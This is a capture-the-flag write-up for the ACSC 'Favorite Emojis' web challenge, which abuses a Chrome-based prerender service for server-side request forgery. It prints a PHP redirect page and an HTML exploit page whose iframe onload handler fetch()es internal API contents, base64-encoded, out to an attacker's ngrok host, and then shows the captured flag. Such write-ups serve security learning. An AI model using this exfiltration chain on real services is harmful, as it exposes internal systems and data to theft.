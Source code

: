 ```yaml
---
description: Prerender dynamic rendering leads to SSRF
---
```


# Favorite Emojis

## Description

🎈





                                🏃

`http://favorite-emojis.chal.acsc.asia:5000`

{% file src="../../.gitbook/assets/favorite-emojis.tar.gz\_88c58c7d867bcad99c40a2013cc77a58.gz" caption="Challenge Files" %}

## Solution

I came across this post which gave me the inspiration for the exploit: [https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/](https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/)

The pre-renderer uses Chrome. We can perform XSS within the renderer.

Set the host header so that the renderer visits our attacker-controlled site. From there, we can redirect the browser using the `Location` header.

`redirect.php`:

```php
<?php 
    header("Location: http://localhost:3000/render?url=http://localhost:3000/render?url=http://0db7-115-66-195-39.ngrok.io/exploit.html");
?>
```

From the user's perspective, the Nginx server will return the 302 redirect, instead of the contents of the redirected site. However, the renderer's browser will still follow the redirect. It will then be redirected to our second exploit page:

`exploit.html`:

```markup
<html>
    <body>
        <iframe id="iframe" src="http://localhost:3000/render?url=http://api:8000/" onload='fetch("http://0db7-115-66-195-39.ngrok.io/?"+btoa(document.getElementById("iframe").contentWindow.document.documentElement.innerHTML));'></iframe>
    </body>
</html>
```

Since both the current site and the iframe's source are `localhost:3000`, this bypasses SOP and allows us to access the iframe's contents.

This gives us the `http://api:8000` contents:

```text
[Sat Sep 18 19:36:42 2021] 127.0.0.1:49207 [404]: /?PGhlYWQ+PC9oZWFkPjxib2R5PkFDU0N7c2hhcmtzX2FyZV9hbHdheXNfaHVuZ3J5fTwvYm9keT4= - No such file or directory
```

Which decodes to

```markup
<head></head><body>ACSC{sharks_are_always_hungry}</body>
```

